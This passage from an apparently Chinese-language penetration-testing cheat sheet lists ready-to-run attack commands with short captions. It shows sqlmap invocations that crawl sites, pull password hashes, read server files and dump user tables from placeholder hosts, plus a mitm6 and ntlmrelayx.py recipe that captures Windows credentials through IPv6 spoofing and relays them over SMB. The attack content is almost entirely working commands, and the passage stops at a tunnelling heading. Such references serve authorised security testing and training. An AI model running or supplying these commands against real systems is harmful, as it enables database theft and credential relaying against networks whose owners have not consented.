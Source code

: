 ````bash
### SQLMap ###

自动sqlmap扫描

```bash
sqlmap -u http://demo.com --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3
```

```bash
sqlmap -u http://INSERTIPADDRESS --dbms=mysql --crawl=3
```

有针对性的sqlmap扫描

```bash
sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords --file-read="/var/www/blah.php"
```

```bash
sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump Scan url for union + error based injection with mysql backend and use a random user agent + database dump
```

sqlmap检查表单注入

```bash
sqlmap -o -u "http://meh.com/form/" –forms
```

dump数据库

```bash
sqlmap -o -u "http://meh/vuln-form" --forms -D database-name -T users –dump
```

刷新会话

```bash
sqlmap --flush session
```

尝试使用布尔技术来利用“用户”字段。

```bash
sqlmap -p user --technique=B
```

Post

```bash
sqlmap -r demo.txt
```

## 其他 ##

使用mitm6的NTLMRelayx.py

使用mitm6通过IPv6欺骗获取捕获的凭据，并通过ntlmrelayx.py将其转发到目标。它需要安装ntlmrelayx.py和mitm6。

```bash
mitm6 -d <domain.local>

ntlmrelayx.py -6 -wh 192.168.1.1 -t smb://192.168.1.2 -l ~/tmp/
```

### 隧道 ###
````